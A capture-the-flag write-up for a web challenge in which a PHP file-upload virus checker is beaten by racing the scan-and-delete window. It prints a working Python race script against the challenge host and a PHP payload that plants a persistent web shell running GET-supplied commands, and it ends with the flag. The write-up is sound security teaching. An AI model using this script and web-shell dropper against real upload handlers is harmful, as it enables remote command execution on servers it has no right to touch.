

# Web (200 Points) 71-solves

## Challenge Description
Have a suspicious file? Check it for viruses here.
author: rugo|RedRocket

Race condition to RCE
## Challenge Files

This challenge was similar to CSCG 2022 file upload, whereby a race condition is exploited.

```
<?php

if (isset($_FILES["file"])) {
    $size = $_FILES["file"]['size'];

    if ($size > 3000) {
        echo "For such large files, buy premium";
    } else {
        $target_dir = "uploads/";
        $target_file = $target_dir . $_FILES["file"]["name"];

        move_uploaded_file($_FILES["file"]["tmp_name"], $target_file);

        function hasVirus($file_path) {
            # Check for Virus
            $argument = escapeshellarg($file_path);
            exec("clamscan $argument", $output, $retval);

            if ($retval != 0) {
                return true;
            }
            return false;
        }

        if (hasVirus($target_file)) {
            echo "The file contains a virus!";
        } else {
            echo "The file is safe to use!";
        }

        unlink($target_file);
    }

}

if (isset($_GET["source"])) {
    highlight_file(__FILE__);
}
?>
We can upload files to the application for it to inspect the file contents and check for viruses, and then it delets the file from the server.

```

## Solution
The application stores the file to the server first by
```
move_uploaded_file($_FILES["file"]["tmp_name"], $target_file);
```

,then only calls hasVirus() function and deletes it subsequently by 
```
unlink($target_file);
```
Therefore, we have a race condition where we can try to request the file before it is deleted from the server.

exploit.py
```
import threading
import requests


url = "http://viruscheckor.rumble.host/index.php"
file_location = "http://viruscheckor.rumble.host/uploads/virus.php"

def access_file():
    while(True):
        r = requests.get(file_location)
        if (r.ok and "Not Found" not in r.text):
                print(f'Success: {r.text}')
                return
        
def race(ses):
    t = threading.Thread(target=access_file)
    t.start()
    while(t.is_alive()):
        with open ('./virus.php','rb') as file:
            r = ses.post(url,files={"file":file})
        t.join()
        
if (__name__ == "__main__"):
    ses = requests.Session()
    race(ses)
```

virus.php
```
<?php
$data = "<?php system (\$_GET['cmd']);?>";
file_put_contents("race_exploit.php",$data);
?>
```

Here I write a file called "race_exploit.php" as a simple web shell to execute commands

Going to the uploads directory /uploads/race_exploit.php presents us with the webshell



The steps are:
1. Upload php file to write persistent webshell to server
2. Race the server and include the file before it is deleted
3. Go to uploads directory and access web shell to execute commands

## Flag
Flag is located in /var/www/html/flag.php

```
CSR{MIGHTSTILLBEMALLICIOUS}
```

